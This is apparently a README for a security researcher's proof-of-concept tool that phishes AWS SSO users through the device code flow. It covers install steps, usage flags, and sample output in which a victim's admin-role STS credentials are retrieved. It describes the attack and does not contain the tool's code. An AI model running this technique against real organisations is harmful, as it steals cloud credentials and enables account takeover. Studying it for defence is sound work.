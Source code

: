 # AWS SSO Device code phishing

This repository contains Python code to generate an AWS SSO device code URL. Once a user used it to authenticate, it displays the list of AWS accounts and roles they have access to, and retrieves STS credentials inside them.

![](./screenshot.png)

Companion blog post: https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/

*Note: This repository is pretty much useless since you can use the AWS CLI to achieve the same purpose - but it provides an interactive PoC to try it, and doesn't mess with your current AWS CLI configuration! :-)*

## Installation

```
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

## Usage

```
$ python main.py --help
usage: main.py [-h] -u START_URL -r REGION [-i SSO_TOKEN_FILE] [-o OUTPUT_FILE]

optional arguments:
  -h, --help            show this help message and exit
  -u START_URL, --sso-start-url START_URL
                        AWS SSO start URL. Example: https://mycompany.awssapps.com/start (default: None)
  -r REGION, --sso-region REGION
                        AWS region in which AWS SSO is configured (e.g. us-east-1) (default: None)
  -i SSO_TOKEN_FILE, --sso-token-file SSO_TOKEN_FILE
                        File to read the AWS SSO token from. If provided, no device code URL is generated (default: None)
  -o OUTPUT_FILE        File to write the retrieved AWS SSO token (default: None)
```

Example:

```
$ python3 main.py -u https://company.awsapps.com/start/ -r eu-west-1  -o /tmp/token
Creating temporary AWS SSO OIDC application
Initiating device code flow
Device code URL: https://device.sso.eu-west-1.amazonaws.com/?user_code=HKRD-BQQP
Waiting indefinitely for user to validate the AWS SSO prompt..
Successfully retrieved AWS SSO token!
> Dev account (11xxxxxxxxx)
  Prod account (545xxxxxxxxx)
  
  
 > AdministratorAccess
  ViewOnlyAccess
  (back to accounts list)

Here are your temporary STS credentials for the 'AdministratorAccess' role in the AWS account 'Dev account' (11xxxxx)

export AWS_ACCESS_KEY_ID=ASIAR..
export AWS_SECRET_ACCESS_KEY=Lj0..
export AWS_SESSION_TOKEN=IQo..
```

Example with an existing AWS SSO token:

```
$ python3 main.py -u https://company.awsapps.com/start/ -r eu-west-1 -i /tmp/token
```

## Troubleshooting

### "invalid_grant - Invalid grant provided"

Ensure you set the correct AWS SSO region. Given the AWS SSO start URL, you can see it using:

```
$ curl https://company.awsapps.com/start/ -s | grep 'region' 
    <meta name="region" content="eu-west-1"/>
```
